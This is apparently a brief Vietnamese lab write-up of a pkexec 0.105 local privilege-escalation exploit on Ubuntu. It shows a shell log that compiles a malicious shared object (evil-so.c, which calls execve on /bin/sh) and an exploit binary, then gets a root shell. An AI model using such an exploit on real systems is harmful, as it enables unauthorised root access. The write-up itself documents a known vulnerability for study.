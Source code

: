 * Kernel: 5.4.0-107-generic

![image](images/img2.png)

* Phiên bản pkexec: 0.105

![image](images/img3.png)


**Kết Quả:**

```shell
h13u@ubuntu:~/tmp$ make all
gcc -shared -o evil.so -fPIC evil-so.c
evil-so.c: In function 'gconv_init':
evil-so.c:9:5: warning: implicit declaration of function 'setgroups'; did you mean 'getgroups'? [-Wimplicit-function-declaration]
   9 | setgroups(0);
     | ^~~~~~~~~~
     | getgroups
evil-so.c:10:5: warning: null argument where non-null required (argument 2) [-Wnonnull]
  10 | execve("/bin/sh", NULL, NULL);
     | ^~~~~~
gcc exploit.c -o exploit
exploit.c: In function 'main':
exploit.c:23:5: warning: implicit declaration of function 'execve' [-Wimplicit-function-declaration]
  23 | execve(BIN, argv, envp);
     | ^~~~~~
h13u@ubuntu:~/tmp$ ls
evil.so evil-so.c exploit exploit.c Makefile
h13u@ubuntu:~/tmp$ ./exploit
# id
uid=0(root) gid=0(root) groups=0(root)
#
```
